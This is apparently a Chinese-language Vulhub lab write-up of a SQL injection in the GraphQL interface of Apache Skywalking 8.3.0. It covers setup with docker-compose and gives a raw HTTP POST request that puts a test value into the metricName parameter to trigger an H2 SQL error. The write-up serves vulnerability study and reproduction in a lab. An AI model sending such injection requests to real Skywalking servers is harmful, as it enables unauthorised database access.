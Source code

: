# Apache Skywalking 8.3.0 SQL注入漏洞

## 漏洞描述

Apache Skywalking是一款针对分布式系统的应用程序性能监视工具，为微服务，云原生和基于容器（Docker，Kubernetes，Mesos）的体系结构而设计。

在Apache Skywalking 8.3.0版本及以前的GraphQL接口中，存在一处H2 Database SQL注入漏洞。

参考链接：

- https://mp.weixin.qq.com/s/hB-r523_4cM0jZMBOt6Vhw
- https://github.com/apache/skywalking/commit/0bd81495965d801315dd7417bb17333ae0eccf3b#diff-ec87a1cdf66cdb37574d9eafd4d72d99ed94a38c4a8ff2aa9c7b8daeff502a2c

## 环境搭建

Vulhub执行如下命令启动一个Apache Skywalking 8.3.0版本：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`即可查看Skywalking的页面。

## 漏洞复现

可见，SQL语句已经出错，`metricName`参数的值被拼接到`from`后面。

![image-20220301101805554](./images/202203011018294.png)

这个请求的HTTP数据包为：

```
POST /graphql HTTP/1.1
Host: your-vps-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 405

{
    "query":"query queryLogs($condition: LogQueryCondition) {
  queryLogs(condition: $condition) {
    total
    logs {
      serviceId
      serviceName
      isError
      content
    }
  }
}
",
    "variables":{
        "condition":{
            "metricName":"sqli",
            "state":"ALL",
            "paging":{
                "pageSize":10
            }
        }
    }
}
```